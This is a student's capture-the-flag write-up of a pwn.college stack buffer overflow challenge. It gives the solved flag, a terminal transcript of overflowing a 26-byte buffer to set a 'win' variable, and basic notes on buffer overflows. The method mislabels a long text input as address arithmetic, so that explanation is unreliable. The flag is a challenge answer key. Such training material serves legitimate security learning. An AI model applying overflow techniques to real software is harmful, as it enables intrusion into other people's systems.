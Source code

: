 # Binary Exploitation 

## Challenge 1: Your First Overflow (easy)
### Solve 

Overflow a buffer on the stack to set the right conditions to obtain the flag!  

**Flag:** `pwn.college{4zqXXF2gV06aRRpJjGP2fzULUFh.dlDOywyMwAzNzEzW}`


METHOD:  
1. To find the program file (.c), search in ~ first.  
2. no such file, navigate back to sys files using cd ..  
3. file found in challenge directory.  
4. after executing, it says that a 'win' variable prints the flag when it's non-zero, i.e. You can make this variable be non-zero by overflowing the input buffer  
5. So to overflow, input 0x7fff1ba9a3a0+0x7fff1ba9a3bc,  
which is input buffer start+where win is located  or  input buffer start+end buffer because that would overflow the input buffer too  




```bash
hacker@binary-exploitation~your-first-overflow-easy:/$ /challenge/binary-exploitation-first-overflow-w
The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffeb5d55fc0 (rsp+0x0000) | 00 10 00 00 00 00 00 00 | 0x0000000000001000 |
| 0x00007ffeb5d55fc8 (rsp+0x0008) | 68 71 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57168 |
| 0x00007ffeb5d55fd0 (rsp+0x0010) | 58 71 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57158 |
| 0x00007ffeb5d55fd8 (rsp+0x0018) | 00 00 00 00 01 00 00 00 | 0x0000000100000000 |
| 0x00007ffeb5d55fe0 (rsp+0x0020) | a0 24 50 be d7 72 00 00 | 0x000072d7be5024a0 |
| 0x00007ffeb5d55fe8 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffeb5d55ff0 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffeb5d55ff8 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffeb5d56000 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffeb5d56008 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffeb5d56010 (rsp+0x0050) | b0 11 40 00 00 00 00 00 | 0x00000000004011b0 |
| 0x00007ffeb5d56018 (rsp+0x0058) | 00 63 a3 11 7d 3e 1a e1 | 0xe11a3e7d11a36300 |
| 0x00007ffeb5d56020 (rsp+0x0060) | 60 70 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57060 |
| 0x00007ffeb5d56028 (rsp+0x0068) | 98 26 40 00 00 00 00 00 | 0x0000000000402698 |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7ffeb5d55fc0, and our base pointer points to 0x7ffeb5d56020.
This means that we have (decimal) 14 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 112 bytes.
The input buffer begins at 0x7ffeb5d55ff0, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 26 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is a "win" variable.
By default, the value of this variable is zero.
However, when this variable is non-zero, the flag will be printed.
You can make this variable be non-zero by overflowing the input buffer.
The "win" variable is stored at 0x7ffeb5d5600c, 28 bytes after the start of your input buffer.

We have disabled the following standard memory corruption mitigations for this challenge:
- the binary is *not* position independent. This means that it will be
located at the same spot every time it is run, which means that by
analyzing the binary (using objdump or reading this output), you can
know the exact value that you need to overwrite the return address with.

You have chosen to send 4096 bytes of input!
This will allow you to write from 0x7ffeb5d55ff0 (the start of the input buffer)
right up to (but not including) 0x7ffeb5d56ff0 (which is 4070 bytes beyond the end of the buffer).
Send your payload (up to 4096 bytes)!
0x7fff1ba9a3bc+0x7ffeb5d56ff0
You sent 30 bytes!
Let's see what happened with the stack:

+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffeb5d55fc0 (rsp+0x0000) | 00 10 00 00 00 00 00 00 | 0x0000000000001000 |
| 0x00007ffeb5d55fc8 (rsp+0x0008) | 68 71 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57168 |
| 0x00007ffeb5d55fd0 (rsp+0x0010) | 58 71 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57158 |
| 0x00007ffeb5d55fd8 (rsp+0x0018) | 00 00 00 00 01 00 00 00 | 0x0000000100000000 |
| 0x00007ffeb5d55fe0 (rsp+0x0020) | a0 24 50 be 1e 00 00 00 | 0x0000001ebe5024a0 |
| 0x00007ffeb5d55fe8 (rsp+0x0028) | 00 10 00 00 00 00 00 00 | 0x0000000000001000 |
| 0x00007ffeb5d55ff0 (rsp+0x0030) | 30 78 37 66 66 66 31 62 | 0x6231666666377830 |
| 0x00007ffeb5d55ff8 (rsp+0x0038) | 61 39 61 33 62 63 2b 30 | 0x302b636233613961 |
| 0x00007ffeb5d56000 (rsp+0x0040) | 78 37 66 66 65 62 35 64 | 0x6435626566663778 |
| 0x00007ffeb5d56008 (rsp+0x0048) | 35 36 66 66 30 0a 00 00 | 0x00000a3066663635 |
| 0x00007ffeb5d56010 (rsp+0x0050) | b0 11 40 00 00 00 00 00 | 0x00000000004011b0 |
| 0x00007ffeb5d56018 (rsp+0x0058) | 00 63 a3 11 7d 3e 1a e1 | 0xe11a3e7d11a36300 |
| 0x00007ffeb5d56020 (rsp+0x0060) | 60 70 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57060 |
| 0x00007ffeb5d56028 (rsp+0x0068) | 98 26 40 00 00 00 00 00 | 0x0000000000402698 |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x7ffeb5d55ff0
- the saved frame pointer (of main) is at 0x7ffeb5d56020
- the saved return address (previously to main) is at 0x7ffeb5d56028
- the saved return address is now pointing to 0x402698.
- the canary is stored at 0x7ffeb5d56018.
- the canary value is now 0xe11a3e7d11a36300.
- the address of the win variable is 0x7ffeb5d5600c.
- the value of the win variable is 0xa30.

You win! Here is your flag:
pwn.college{4zqXXF2gV06aRRpJjGP2fzULUFh.dlDOywyMwAzNzEzW}


Goodbye!
```


### New Learnings
1. A buffer overflow occurs when the amount of data exceeds the storage capacity of the memory buffer.  
2. As a result, the program attempting to write the data to the buffer overwrites adjacent memory locations.   
3. Buffer overflow attack- A buffer overflow happens when someone gives a program more data than it can handle,  
messing with memory to make the program do something unintended or run malicious code.  
4. If they know where things are in memory, they can target specific parts to take control.  


### References
Slides  
https://www.imperva.com/learn/application-security/buffer-overflow/  
